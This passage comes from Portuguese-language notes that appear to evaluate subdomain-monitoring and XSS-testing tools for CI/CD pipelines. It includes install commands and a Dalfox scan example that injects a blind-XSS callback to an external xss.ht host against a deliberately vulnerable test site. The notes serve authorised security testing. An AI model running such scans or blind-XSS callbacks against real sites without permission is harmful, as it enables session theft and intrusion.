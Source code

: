 Neste caso eu quero que a notificação a ser usada, seja a que eu configurei com o id **nmap**

## Findomain
 Ferramenta paga, porém com versão gratuita, para ser usada junto de outros serviços. Para notificar quando um subdominio novo é encontrado. Não acho que faz tanto sentido ser usada para pipelines de Continuous Delivery.
 
 "Findomain offers a subdomains monitoring service that provides: directory fuzzing/ports scan/vulnerabilities discovery (with Nuclei) - and more that allow you to monitor your target domains with multiple top tools (OWASP Amass, Sublist3r, Assetfinder and Subfinder) and send alerts to Discord, Slack, Telegram, Email or Push Notifications (Android/iOS/Smart Watch/Desktop) when new subdomains are found."

# Ferramentas de Content Security Policy (CSP) ou XSS Protection
 
  Segundo a mozilla, XSSProtection é depredado se o site usa uma forte Content Security Policy para se proteger de ataques. O dominio.com.br atualmente não tem nenhum header de Contenct Security Policy.
  
  
  Ferramentas para injeção de payload fornecida por usuario:
  
  - https://github.com/ferreiraklet/airixss (instalação por: go install github.com/ferreiraklet/airixss@latest)
  - https://github.com/ffuf/ffuf (instalação por: go install github.com/ffuf/ffuf@latest) 
  - https://github.com/R0X4R/bhedak (não recomendada)
  - XSSHunter*

Essas ferramentas não são integráveis ao pipelines de Continuous Delivery e é preciso estudar mais sobre XSS.

## XSSHunter - https://xsshunter.com/

Versão Self Hosted da ferramenta - https://github.com/mandatoryprogrammer/xsshunter-express

Essa ferramenta permite hospedar os nossos próprios payloads para para exercitar ataques XSS

Meu Payload XSS Pessoal https://blazim.xss.ht/

## Dalfox - https://github.com/hahwul/dalfox

* Boa para pipelines de Continuous Delivery

* Instalação - sudo snap install dalfox

* Exemplo de uso

dalfox url http://testphp.vulnweb.com/listproducts.php\?cat\=123\&artist\=123\&asdf\=ff -b https://hahwul.xss.ht

O parâmetro do -b é o payload pra carregar o script no site alvo de ataque, matenha fixo e ajuste o URL COM CUIDADO para não derrubar nada de produção

## KXSS - https://github.com/Emoe/kxss
